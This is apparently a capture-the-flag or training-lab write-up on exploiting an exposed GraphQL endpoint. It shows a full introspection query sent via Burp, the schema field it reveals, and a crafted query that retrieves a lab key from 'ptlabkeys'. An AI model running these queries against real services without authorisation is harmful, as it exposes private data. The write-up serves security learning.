






## Intro
On project, I saw



On Burp, This request



Try to edit query graphql to retrieve data from schema using `IntrospectionQuery ` query hacktricks

```graphql
  #Full introspection query

query IntrospectionQuery {
    __schema {
        queryType {
            name
        }
        mutationType {
            name
        }
        subscriptionType {
            name
        }
        types {
         ...FullType
        }
        directives {
            name
            description
            args {
                ...InputValue
        }
        }
    }
}

fragment FullType on __Type {
    kind
    name
    description
    fields(includeDeprecated: true) {
        name
        description
        args {
            ...InputValue
        }
        type {
            ...TypeRef
        }
        isDeprecated
        deprecationReason
    }
    inputFields {
        ...InputValue
    }
    interfaces {
        ...TypeRef
    }
    enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
    }
    possibleTypes {
        ...TypeRef
    }
}

fragment InputValue on __InputValue {
    name
    description
    type {
        ...TypeRef
    }
    defaultValue
}

fragment TypeRef on __Type {
    kind
    name
    ofType {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
            }
        }
    }
}
```
It's not JSON type; try to convert `graphql` type : https://www.freeformatter.com/json-escape.html#before-output



using escaped json payload, I got message



`ptlabkeys` that what i need throw on response
```json
           {
              "name": "ptlabkeys",
              "description": null,
              "args": [
                {
                  "name": "offset",
                  "description": null,
                  "type": {
                    "kind": "SCALAR",
                    "name": "Int",
                    "ofType": null
                  },
                  "defaultValue": "0"
                }
```
TRy to retrieve this `ptlabkeys` project



ptlabkeys project available, modify the query(plus `value\n`), I got value of `ptlabkeys`
```json
{"operationName":"ptlabkeys","variables":{"offset":10},"query":"query ptlabkeys($offset: Int) {\n  ptlabkeys(offset: $offset, limit: 10) {\n    id\n  value\n   __typename\n  }\n}\n"}
```


sucessful to retrieve a key